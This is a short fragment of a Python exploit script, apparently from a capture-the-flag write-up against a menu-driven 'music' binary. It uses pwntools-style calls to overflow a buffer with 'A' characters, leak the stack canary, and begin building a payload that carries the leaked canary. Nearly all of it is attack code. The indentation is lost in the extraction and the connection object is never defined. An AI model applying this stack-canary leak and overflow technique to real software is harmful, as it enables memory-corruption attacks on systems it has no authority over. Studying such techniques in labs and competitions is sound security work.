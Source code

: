 ```python
for i in  range(0,100):

s.sendline('1')

s.recv()

s.send("asdf")

s.recv()

s.send("asdf")

s.recvuntil("\tselect\t|\t")

s.sendline('3')

s.recvuntil("select number\t|\t\n")

s.sendline('100')

s.recvuntil("\tmusic\t|\t")

s.send("asdf")

s.recv()

s.send("A"*21)

s.recvuntil("\tselect\t|\t\n")

s.sendline('2')

s.recvuntil('AAAAAAAAAAAAAAAAAAAAA')

canary =  '\x00'  + s.recv(3)

print ("[*]canary : 0x%x"%u32(canary))
```
# canary leak success
```python
s.recvuntil("\tselect\t|\t")

s.sendline('3')

s.recvuntil("select number\t|\t\n")

s.sendline('100')

s.recvuntil("\tmusic\t|\t")

s.send("asdf")

s.recv()
```
# leak_printf === payload
```python
leak_printf="A"*20

leak_printf+=canary

```